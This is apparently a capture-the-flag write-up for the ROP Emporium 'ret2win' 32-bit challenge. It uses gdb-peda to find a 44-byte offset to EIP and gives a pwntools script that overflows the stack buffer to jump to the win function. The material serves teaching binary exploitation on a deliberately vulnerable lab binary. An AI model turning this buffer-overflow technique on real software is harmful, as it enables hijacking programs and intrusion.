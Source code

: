 The binary is pretty straight forward about what we need to do:
```
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!
```

Let's see how many bytes we need to write to overwrite EIP:

```
> gdb -q ./ret2win32
Reading symbols from ./ret2win32...(no debugging symbols found)...done.
gdb-peda$ pattern_create 50 input
Writing pattern of 50 chars to filename "input"
gdb-peda$ run < input
gdb-peda$ pattern_search
Registers contain pattern buffer:
...
EIP+0 found at offset: 44
...
```

All that is left to do is to find the address of the ret2win function and finalize the exploit:
```python
from pwn import *

bin = ELF('ret2win32')
ret_addr = bin.symbols.ret2win

p = process('ret2win32')
p.recvuntil('>')

payload = 'A'*44 + p32(ret_addr)
p.sendline(payload)

p.interactive()
```
